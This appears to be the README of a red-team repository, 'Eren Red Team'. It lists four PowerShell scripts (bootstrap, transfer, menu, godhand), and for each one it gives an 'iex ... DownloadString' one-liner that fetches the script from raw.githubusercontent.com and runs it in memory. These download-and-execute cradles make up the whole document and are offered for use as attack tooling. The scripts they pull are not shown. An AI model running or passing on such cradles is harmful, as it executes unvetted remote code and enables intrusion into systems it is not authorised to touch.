 # Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## menu.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/menu.ps1') 
```

## godhand.ps1
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/godhand.ps1') 
```
